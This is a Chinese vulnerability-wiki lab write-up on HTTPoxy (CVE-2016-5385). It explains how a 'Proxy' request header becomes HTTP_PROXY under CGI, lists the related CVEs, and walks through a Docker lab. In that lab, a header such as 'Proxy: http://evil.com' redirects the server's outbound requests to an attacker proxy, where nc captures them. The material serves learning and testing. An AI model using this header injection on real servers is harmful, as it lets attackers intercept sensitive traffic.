



# HTTPoxy CGI 漏洞 CVE-2016-5385

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：CGI将Proxy映射HTTP_PROXY，下游HTTP客户端信任它且应用实际发出外连；实验PHP5.6.23/Guzzle6.2.0
- 证据范围：主实验与其他产品CVE区分得当，但所有CGI理论都受影响省略客户端是否信任变量的必要条件

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 末尾GitHub跳转行details为抓取噪声
- 应区分RFC变量映射与具体PHP补丁/库修复
- HTTP代理捕获需出站网络条件，https流量并非自动可读

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 漏洞影响

该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。CVE-2016-5385是PHP的CVE，HTTPoxy所有的CVE编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

## 环境搭建

Vulhub启动一个基于PHP 5.6.23 + GuzzleHttp 6.2.0的应用：

```shell
docker-compose up -d
```

Web页面原始代码：[index.php](https://github.com/vulhub/vulhub/blob/master/cgi/CVE-2016-5385/www/index.php)

## 漏洞复现

正常请求`http://your-ip:8080/index.php`，可见其Origin为当前请求的服务器，二者IP相等：




在其他地方启动一个可以正常使用的http代理，如`http://*.*.122.65:8888/`。

附带`Proxy: http://*.*.122.65:8888/`头，再次访问`http://your-ip:8080/index.php`：




如上图，可见此时的Origin已经变成`*.*.122.65`，也就是说真正进行HTTP访问的服务器是`*.*.122.65`，也就是说`*.*.122.65`已经将正常的HTTP请求代理了。

在`*.*.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：




<details class="details-reset details-overlay details-overlay-dark" id="jumpto-line-details-dialog" style="box-sizing: border-box; display: block;"><summary data-hotkey="l" aria-label="Jump to line" role="button" style="box-sizing: border-box; display: list-item; cursor: pointer; list-style: none; transition: color 80ms cubic-bezier(0.33, 1, 0.68, 1) 0s, background-color, box-shadow, border-color;"></summary></details>


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
